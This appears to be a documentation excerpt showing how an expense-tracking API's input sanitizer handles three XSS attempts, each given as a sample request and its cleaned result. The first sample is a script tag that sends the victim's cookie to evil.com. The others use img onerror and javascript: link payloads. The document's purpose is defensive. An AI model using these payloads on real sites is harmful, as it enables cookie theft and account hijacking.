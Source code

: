 
## 🔐 XSS Attack Prevention Examples

### Attack 1: Script Tag Injection

**Malicious Input:**
```http
POST /api/expenses
{
  "description": "<script>document.location='http://evil.com?cookie='+document.cookie</script>Expense"
}
```

**After Sanitization:**
```json
{
  "description": "Expense"
}
```
✅ **Blocked:** Script tag completely removed

---

### Attack 2: Event Handler Injection

**Malicious Input:**
```http
POST /api/categories
{
  "name": "<img src=x onerror=\"alert('XSS')\">"
}
```

**After Sanitization:**
```json
{
  "name": ""
}
```
✅ **Blocked:** HTML and event handler removed

---

### Attack 3: JavaScript Protocol

**Malicious Input:**
```http
POST /api/expenses
{
  "description": "<a href=\"javascript:alert('XSS')\">Click</a>"
}
```

**After Sanitization:**
```json
{
  "description": "Click"
}
```
✅ **Blocked:** Link and javascript protocol removed

---